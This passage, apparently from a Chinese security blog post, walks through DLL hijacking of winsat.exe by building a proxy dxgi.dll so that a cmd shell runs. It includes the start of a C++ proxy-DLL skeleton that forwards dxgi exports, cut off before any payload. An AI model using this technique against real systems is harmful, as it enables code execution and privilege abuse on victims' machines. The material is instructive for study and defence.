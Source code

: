 ![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08V9g3l28vtErBV8evRgfdXOmZCXYNS2u8g3SdvE5jgrvFAdDf44EG07MdZ9icqePB3MUhXdk4hXc2Q/640?wx_fmt=png)

我们最后选择了 winsat.exe 这个程序作为我们的劫持程序，下面就是查看该程序会加载的 DLL。

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08V9g3l28vtErBV8evRgfdXO9Z1geV4xdK43DVtTNzkg1Oh86E1A8q2CURr9hhlSmicTxrMrboCY0icg/640?wx_fmt=png)

发现其会加载 dxgi.dll。

下面就是需要编写我们的 dll 了，原理如下（图来自国外）

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08V9g3l28vtErBV8evRgfdXO5DMtTIpClLTJe81NY4lMuRvBGP1x0eecRItNz0T7WVtNZBTRtVT0yQ/640?wx_fmt=png)

可以通过 dllexp 来查看 dll 内的函数

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08V9g3l28vtErBV8evRgfdXOe8R8r5gajKRgFvg3vkbUF9Uz3DBIdX00Kz7HDVMiaxCyicXXQrYFfqqw/640?wx_fmt=png)

你可以自行编写所需要的 dll，也可以使用一些自动化工具来生成所需的 dll。中间也是出了很多问题，多亏了团队的 wlpz 师傅的指点，我这里最后的目的就是使用 dll 劫持来运行一个 cmd，所以最后的主要代码如下：

```
# include "pch.h"

#include <windows.h>
#include <Wtsapi32.h>

#pragma comment(lib, "Wtsapi32.lib")

# define EXTERNC extern "C"
# define NAKED __declspec(naked)
# define EXPORT EXTERNC __declspec(dllexport)
# define ALCPP EXPORT NAKED
# define ALSTD EXTERNC EXPORT NAKED void __stdcall
# define ALCFAST EXTERNC EXPORT NAKED void __fastcall
# define ALCDECL EXTERNC NAKED void __cdecl

EXTERNC 
{
    FARPROC Hijack_ApplyCompatResolutionQuirking;
    FARPROC Hijack_CompatString;
    FARPROC Hijack_CompatValue;
    FARPROC Hijack_CreateDXGIFactory;
    FARPROC Hijack_CreateDXGIFactory1;
    FARPROC Hijack_CreateDXGIFactory2;
    FARPROC Hijack_DXGID3D10CreateDevice;
    FARPROC Hijack_DXGID3D10CreateLayeredDevice;
    FARPROC Hijack_DXGID3D10GetLayeredDeviceSize;
    FARPROC Hijack_DXGID3D10RegisterLayers;
    FARPROC Hijack_DXGIDeclareAdapterRemovalSupport;
    FARPROC Hijack_DXGIDumpJournal;
    FARPROC Hijack_DXGIGetDebugInterface1;
    FARPROC Hijack_DXGIReportAdapterConfiguration;
    FARPROC Hijack_PIXBeginCapture;
    FARPROC Hijack_PIXEndCapture;
    FARPROC Hijack_PIXGetCaptureState;
    FARPROC Hijack_SetAppCompatStringPointer;
    FARPROC Hijack_UpdateHMDEmulationStatus;

}

namespace DLLHijacker
{
    HMODULE m_hModule = NULL;
    DWORD m_dwReturn[17] = {0};

    inline BOOL WINAPI Load()
```